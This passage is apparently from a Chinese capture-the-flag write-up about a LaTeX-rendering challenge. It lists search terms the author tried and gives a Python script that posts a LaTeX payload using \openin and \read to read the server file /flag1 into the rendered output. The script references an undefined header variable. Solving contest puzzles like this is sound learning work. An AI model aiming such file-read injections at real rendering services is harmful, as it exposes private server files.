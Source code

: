 后来在了解 Latex 宏的过程中终于搞明白 `#` 的功能是在宏内部表示这个宏接收的参数，例如 `#1` 表示这个宏的第 1 个参数，`#2` 表示这个宏的第 2 个参数。

但这并不能对解题起到帮助，该不会还是不会。

笔者又去 Google 了包括但不限于下列关键词：

- latex include plain text with escape chars
- latex verb include
- latex verbatim
- latex texttt
- latex listing
- latex verbatiminput
- latex ignore special chars escape chars
- latex usepackage in document
- latex multi document
- latex replace
- Embedded Latex(搜这个是受到了安全 OJ 那题的启发)
- latex commandchars
- How to include plain text with special chars
- ...

并且做了一个 Python 脚本方便上传 tex 语句

```python
import requests
from bs4 import BeautifulSoup

text = """ $$
\\newread\\recipientfile
\\openin\\recipientfile=/flag1
\\read\\recipientfile to\\email
\\closein\\recipientfile
\\texttt{\\email}
\\verb|\\email|
$$ """


print(text)

data = {
	"latex-text": text.replace("\n", " "),
}

url = "http://202.38.93.111:10020/"

ret = requests.post(url=url, headers=header, data=data).content.decode('utf-8')
soup = BeautifulSoup(ret, 'html.parser')
img_list = soup.find_all("img")
if len(img_list) > 0:
	print(str(img_list[0])[10:-3])
else:
	print("error")

```
